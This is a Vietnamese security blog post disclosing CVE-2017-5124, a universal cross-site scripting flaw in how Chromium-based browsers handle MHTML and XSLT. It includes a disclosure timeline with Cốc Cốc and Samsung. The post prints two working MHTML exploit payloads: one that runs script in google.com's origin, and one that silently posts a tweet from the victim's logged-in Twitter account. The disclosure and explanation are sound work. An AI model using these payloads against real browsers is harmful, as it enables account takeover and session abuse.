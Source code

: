 ```yaml
---
layout: post
title: "Chromium Based Browsers are safe or not ? "
date: 2017-12-17 00:00:00.000000000 +07:00
type: post
published: true
status: publish
categories:
- Tutorials
tags:
- uxss
- chromium
excerpt: "Gần đây, trình duyệt nguồn mở Chromium (phiên bản 62 trở xuống) có một lỗi cực kì nghiêm trọng. Vậy lỗi này nghiêm trọng thế nào? Ảnh hưởng của lỗi này ra sao?"
---
```


Gần đây, trình duyệt nguồn mở Chromium (phiên bản 62 trở xuống) có một lỗi cực kì nghiêm trọng **UXSS with MHTML**, được gắn mã CVE-2017-5124. Mã khai thác của lỗi này cũng đã được công bố: https://github.com/Bo0oM/CVE-2017-5124. Vậy lỗi này nghiêm trọng thế nào? Ảnh hưởng của lỗi này ra sao? 

## Universal Cross-site Scripting (UXSS) là gì?
Lỗi [cross-site scripting (XSS) attacks](https://www.acunetix.com/websitesecurity/cross-site-scripting/) thường xuất hiện trên các website hoặc các ứng dụng web. Đây là lỗ hổng cho phép hacker có thể chèn những đoạn mã client-script (thường là Javascript hoặc HTML) vào trang web, khi người dùng vào những trên web này, mã độc sẽ được thực thi trên máy của người dùng. UXSS giống với XSS  ở một số đặc điểm cơ bản: khai thác một lỗ hổng của ứng dụng web, thực thi mã độc, tuy nhiên vẫn có điểm khác nhau như sau: không giống như XSS là lỗ hổng nằm bên trong ứng dụng web, UXSS là loại lỗ hổng nằm bên trong trình duyệt, hoặc một phần mở rộng của trình duyệt. Loại lỗ hổng này tạo ra điều kiện giống như điều kiện xảy ra XSS, do đó có thể thực thi code độc hại. Khi lỗ hổng này bị khai thác, các tính năng bảo mật của trình duyệt sẽ bị vô hiệu hóa.

Hacker sử dụng UXSS để truy cập vào mọi phiên đang mở của trình duyệt: hacker có thể đọc được cookie hoặc session của các tab đang mở.

## UXSS with MHTML (CVE-2017-5124)
Đây là một lỗi nằm trong nhân xử lý của Chromium khi xử lý định dạng [MHTML (MIME-HTML)](https://en.wikipedia.org/wiki/MHTML) .

MHTML là tài liệu văn bản mà trong đó xác định rõ tiêu đề (title), content-type (`multipart / related`) và phần biên (ví dụ là `----MultipartBoundary--`), sau đó được chia thành từng phần trong một file. Ngoài ra, có thể bổ sung một số thông tin như cách encode(base64 chẳng hạn).

Trong mô tả của html, chúng ta có thể sử dụng Content-location để xác định nguồn của dữ liệu. Ví dụ, chúng ta viết Content-location: https://example.com/abc, dữ liệu sẽ được trình duyệt đọc từ địa chỉ https://example.com/abc và hiển thị.

Để an toàn cho người dùng, tất cả các dữ liệu liên quan tới javascript đều bị cấm và không thể tải được từ một địa chỉ khác, ngoài domain người dùng đang truy cập. Điều này được Chromium kiểm tra ở mọi chỗ, trừ [XSLT](https://en.wikipedia.org/wiki/XSLT).

```
MIME-Version: 1.0
Content-Type: multipart/related;
	type="text/html";
	boundary="----MultipartBoundary--"
CVE-2017-5124

------MultipartBoundary--
Content-Type: application/xml;

<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE catalog [
<!ATTLIST xsl:stylesheet
id ID #REQUIRED>
]>
<xsl:stylesheet id="stylesheet" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="*">
<html><iframe style="display:none" src="https://google.com"></iframe></html>
</xsl:template>
</xsl:stylesheet>

------MultipartBoundary--
Content-Type: text/html
Content-Location: https://google.com

<script>alert('Location origin: '+location.origin)</script>
------MultipartBoundary----
```

Trong đoạn mã trên, hacker có thể chạy alert() với domain https://google.com và hiển thị một messagebox cho biết location tương ứng với ngữ cảnh script đang chạy.

## Một vài kịch bản khai thác sử dụng UXSS with MHTML (CVE-2017-5124)
Nếu đơn thuần chỉ hiển thị một messagebox thì có lẽ cũng không cần quan tâm. Chúng ta sẽ tiếp cận một vài kịch bản "thực tế" hơn:
 * Người dùng bị mất email: Người dùng hoàn toàn có thể bị kẻ xấu lợi dụng để đọc email, gửi thư bằng địa chỉ email của người dùng mà họ không hề hay biết. Hiện giờ, các tài khoản ngân hàng, tài khoản mạng xã hội thường gắn liền với một địa chỉ email. Nếu chiếm được email này, hacker hoàn toàn có thể đọc được các mã recover tài khoản hoặc các thông báo từ phía ngân hàng, gửi email giả mạo hoặc sử dụng email này làm bàn đạp để tấn công.
 * Người dùng hoàn toàn có thể bị chiếm quyền điều khiển các tài khoản mạng xã hội: Hacker có thể đọc và đăng các bài post dưới tài khoản của người dùng. Tôi sẽ sử dụng tài khoản Twitter của tôi để thử nghiệm.
 * Người dùng có thể mất tài khoản ngân hàng: nếu người dùng chỉ sử dụng trình duyệt và không có phương thức bảo vệ nào khác như OTP.
 
Mã khai thác sẽ tweet một thông điệp bằng tài khoản Twitter của người dùng.
```
MIME-Version: 1.0
Content-Type: multipart/related;
	type="text/html";
	boundary="----MultipartBoundary--"
Become IDOL

------MultipartBoundary--
Content-Type: application/xml;

<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE catalog [
<!ATTLIST xsl:stylesheet
id ID #REQUIRED>
]>
<xsl:stylesheet id="stylesheet" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="*">
<html><iframe style="display:none" src="https://twitter.com" ></iframe></html>
</xsl:template>
</xsl:stylesheet>

------MultipartBoundary--
Content-Type: text/html
Content-Location: https://twitter.com

<script>

function tweet(text)
{
    var win = window.open("/", '_blank', 'toolbar=no,status=no,menubar=no,scrollbars=no,resizable=no,left=10000, top=10000, width=2, height=1, visible=none', '');
	win.onload = function(){
	        win.boxTextToTweet = win.document.getElementById("tweet-box-home-timeline");
			win.btnPostTweet = win.document.getElementsByClassName("tweet-action EdgeButton EdgeButton--primary js-tweet-btn")[0];
			win.boxTextToTweet.focus();
			win.boxTextToTweet.innerHTML = text;
			setTimeout(function(){ win.btnPostTweet.click(); }, 500);
			setTimeout(function(){ win.close(); }, 1500);
	}
}

tweet('I <3 fosec. @quangnh89 is my idol.');

</script>
------MultipartBoundary----
```

Tôi có thực hiện một vài kịch bản tấn công với 2 trình duyệt Cốc Cốc ( bản 66 ) và SamSung Internet.

Demo với Cốc Cốc 66:

[![UXSS with MHTML (CVE-2017-5124) + CocCoc browser 66.4.134](https://img.youtube.com/vi/oBZe2-dtfGI/0.jpg)](https://www.youtube.com/watch?v=oBZe2-dtfGI)

## Những trình duyệt bị ảnh hưởng bởi CVE-2017-5124
Tôi khẳng định: Tất cả các trình duyệt sử dụng nhân của Chromium (phiên bản nhỏ hơn 62) đều bị ảnh hưởng. Điểm qua một số trình duyệt đang thịnh hành ở Việt Nam, chúng ta có thể kể đến Cốc Cốc (coccoc.vn), phiên bản 66.4.134 đang dùng nhân Chromium 60.4.3112.134). Ngoài ra một số trình duyệt trên các dòng điện thoại SamSung do hãng sản xuất tự thêm vào đều có thể mắc phải lỗi này. Cá nhân tôi cho rẳng, để an toàn, chúng ta có thể tạm thời ngưng sử dụng trình duyệt có lỗi cho đến khi chúng có bản vá đầy đủ.

## Timeline thông báo lỗi tới các bên liên quan
_Trình duyệt Cốc Cốc_
 * 05/12/2017: Thông báo cho công ty Cốc Cốc.
 * 06/12/2017: Công ty Cốc Cốc khẳng định sẽ release bản sửa lỗi khi cập nhật tới phiên bản 68.
 * 17/12/2017: Kiểm tra trình duyệt Cốc Cốc 68 và lỗi đã fix xong.
Hiện tại, bản mới nhất của Cốc Cốc đã sửa lỗi này. Nếu bạn dùng Cốc Cốc, hãy tải bản mới nhất.

_Trình duyệt SamSung Internet Browser 6.2.01.12_
 * 03/12/2017: Thông báo cho Công ty SamSung
 * 04/12/2017: SamSung thông báo đã tiếp nhận vấn đề
 * 08/12/2017: SamSung cho rằng issue này thuộc về Google Chrome và đã fix và đóng issue.
 
Theo thử nghiệm của tôi, trình duyệt SamSung Internet Browser 6.2.01.12 bị lỗ hổng nghiêm trọng này. Nếu máy điện thoại của bạn chưa cập nhật lên bản mới hơn, hãy tạm dừng sử dụng nó cho đến khi có bản mới. Demo với SamSung internet: https://www.youtube.com/watch?v=nLPuplN5HmM